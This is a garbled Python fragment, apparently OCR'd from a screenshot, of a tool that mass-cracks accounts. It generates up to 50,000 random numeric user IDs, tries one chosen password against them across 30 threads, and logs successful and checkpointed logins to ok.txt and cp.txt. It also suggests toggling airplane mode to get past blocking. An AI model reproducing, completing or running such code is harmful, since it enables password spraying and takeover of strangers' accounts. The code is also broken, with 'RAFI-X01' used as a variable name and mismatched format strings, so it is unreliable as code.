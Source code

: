 		if RAFI-X01 in ["4", "04"]:

			self.old()

		if RAFI-X01 in ["5", "05"]:

			self.old2()

			exit()

		else:

			print (" Select Correctly ")

			time.sleep(1)

			Main()

	def old(self):

		x = 111111111

		xx = 999999999

		idx = "100000" 

		os.system('clear');print(logo)

		limit = int(input(" \n\033[0;95m[+]\033[0;93m TOTAL IDS TO CRACK LIMIT 50,000: "))

		try:

			for n in range(limit):

				_ = random.randint(x,xx)

				__ = idx

				self.id.append(__+str(_))

			

			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 

			with ThreadPoolExecutor(max_workers=30) as coeg:

				print("\n\033[1;32m [!] USE (123456) FOR IDZ\033[1;37m ")

				listpass = input("%s [?] ENTER PASSWORD :%s "%(G,Y))

				if len(listpass)<=5:

					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(RAFI-X01))

				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(RAFI-X01))

				os.system("clear")

				print(logo)

				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(Y))

				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(G))

				print("%s [!] IF NO RESULT USE AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(P))
